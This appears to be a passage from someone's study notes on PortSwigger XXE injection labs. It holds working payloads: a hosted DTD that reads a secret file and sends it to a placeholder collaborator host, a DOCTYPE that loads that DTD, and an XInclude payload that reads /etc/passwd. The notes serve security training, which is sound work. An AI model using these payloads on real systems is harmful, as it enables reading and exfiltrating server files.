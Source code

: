     > On the exploit server change the hosted file name to /exploit.dtd as the exploit file with Document Type Definition (DTD) extension, containing the following payload. The &#x25; is the Unicode hex character code for percent sign %. Parameter entities are referenced using the percent character instead of the usual ampersand.
    > 
    
    ```xml
    <!ENTITY % file SYSTEM "file:///home/carlos/secret">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.net/?x=%file;'>">
    %eval;
    %exfil;
    ```
    
    > Modify the file upload XML body of the request before sending to the target server.
    > 
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://EXPLOIT.net/exploit.dtd"> %xxe;]>
    <users>
        <user>
            <username>Carl Toyota</username>
            <email>carlos@hacked.net</email>
        </user>    
    </users>
    ```
    
- [ ]  **[Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)**
    
    > File upload or user import function on web target use XML file format. This can be vulnerable to XML external entity (XXE) injection.
    > 
    
    ### Identify XML
    
    > Possible to find XXE attack surface in requests that do not contain any XML.
    > 
    
    > To Identify XXE in not so obvious parameters or requests, require adding the below and URL encode the & ampersand symbol to see the response.
    > 
    
    `%26entity;`
    
    > Below the server respond with **indication that XML Entities are not allowed for security reasons.**
    > 
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56f1b87b-65b9-44d3-bf32-80c5dcffd914/Untitled.png)
    
    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    URL encode the XXE payload before sending.
    